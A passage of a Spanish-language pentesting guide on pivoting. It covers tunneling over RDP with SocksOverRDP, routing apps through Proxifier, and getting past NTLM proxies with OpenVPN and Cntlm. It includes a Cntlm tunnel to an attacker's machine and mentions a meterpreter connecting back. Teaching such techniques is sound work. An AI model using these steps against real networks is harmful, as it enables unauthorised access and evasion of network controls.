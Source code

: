 Necesitas tener **acceso RDP sobre el sistema**.\
Descarga:

1. [Binarios SocksOverRDP x64](https://github.com/nccgroup/SocksOverRDP/releases) - Esta herramienta utiliza `Canales Virtuales Dinámicos` (`DVC`) del servicio de Escritorio Remoto de Windows. DVC es responsable de **tunelizar paquetes sobre la conexión RDP**.
2. [Binario Portátil de Proxifier](https://www.proxifier.com/download/#win-tab)

En tu computadora cliente carga **`SocksOverRDP-Plugin.dll`** de esta manera:
```bash
# Load SocksOverRDP.dll using regsvr32.exe
C:\SocksOverRDP-x64> regsvr32.exe SocksOverRDP-Plugin.dll
```
Ahora podemos **conectarnos** a la **víctima** a través de **RDP** usando **`mstsc.exe`**, y deberíamos recibir un **aviso** que indique que el complemento **SocksOverRDP está habilitado**, y estará **escuchando** en **127.0.0.1:1080**.

**Conéctate** a través de **RDP** y carga y ejecuta en la máquina de la víctima el binario `SocksOverRDP-Server.exe`:
```
C:\SocksOverRDP-x64> SocksOverRDP-Server.exe
```
Ahora, confirma en tu máquina (atacante) que el puerto 1080 está escuchando:
```
netstat -antb | findstr 1080
```
Ahora puedes usar [**Proxifier**](https://www.proxifier.com/) **para enrutar el tráfico a través de ese puerto.**

## Enrutar aplicaciones GUI de Windows

Puedes hacer que las aplicaciones GUI de Windows naveguen a través de un proxy utilizando [**Proxifier**](https://www.proxifier.com/).\
En **Perfil -> Servidores Proxy** agrega la IP y el puerto del servidor SOCKS.\
En **Perfil -> Reglas de Proxificación** agrega el nombre del programa a enrutar y las conexiones a las IPs que deseas enrutar.

## Bypass de proxy NTLM

La herramienta mencionada anteriormente: **Rpivot**\
**OpenVPN** también puede evitarlo, configurando estas opciones en el archivo de configuración:
```bash
http-proxy <proxy_ip> 8080 <file_with_creds> ntlm
```
### Cntlm

[http://cntlm.sourceforge.net/](http://cntlm.sourceforge.net/)

Se autentica contra un proxy y enlaza un puerto local que se reenvía al servicio externo que especifiques. Luego, puedes utilizar la herramienta que elijas a través de este puerto.\
Por ejemplo, reenviar el puerto 443.
```
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attackers_machine>:443
```
Ahora, si configuras, por ejemplo, en la víctima el servicio **SSH** para escuchar en el puerto 443. Puedes conectarte a través del puerto 2222 del atacante.\
También podrías usar un **meterpreter** que se conecta a localhost:443 y el atacante está escuchando en el puerto 2222.
